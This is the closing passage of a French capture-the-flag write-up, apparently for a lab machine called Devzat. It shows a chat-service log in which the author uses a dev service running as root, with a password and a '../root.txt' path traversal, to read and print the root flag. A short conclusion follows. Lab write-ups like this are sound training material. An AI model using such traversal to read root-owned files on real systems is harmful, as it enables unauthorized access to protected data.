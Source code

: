Maintenant nous pouvons passer par le service en dev qui tourne en root pour
lire le flag

```
aze: /file /root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
aze: /file ../root.txt CeilingCatStillAThingIn2021?
[SYSTEM] ef1b3ab4fd7812cc6b74c956190fffbe
aze:
```

Nous avons récupéré le flag avec succès.

## **CONCLUSION**

Pour bien reussir cette machine il fallait bien lire les codes source des apps
qui donnaient tout les indices nécessaire pour trouver notre chemin.
